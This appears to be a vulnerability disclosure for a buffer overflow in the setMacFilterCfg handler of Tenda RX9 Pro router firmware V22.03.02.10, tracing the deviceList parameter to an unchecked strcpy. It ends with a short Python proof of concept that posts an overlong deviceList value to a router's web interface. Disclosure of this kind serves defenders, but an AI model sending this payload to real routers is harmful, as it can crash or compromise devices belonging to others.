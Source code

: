 # buffer overflow

## Tenda_RX9_Pro

version: V22.03.02.10

## Description:

There is a buffer overflow in httpd/setMacFilterCfg

## Source:

you may download it from : [https://www.tendacn.com/download/detail-4218.html](https://www.tendacn.com/download/detail-4218.html)

## Analyse:


![](2.png)

get value from deviceList 

![](3.png)

then call sub_4223E0

![](4.png)

finally call strcpy ,dont check the length, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/setMacFilterCfg"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceList': payload})
```
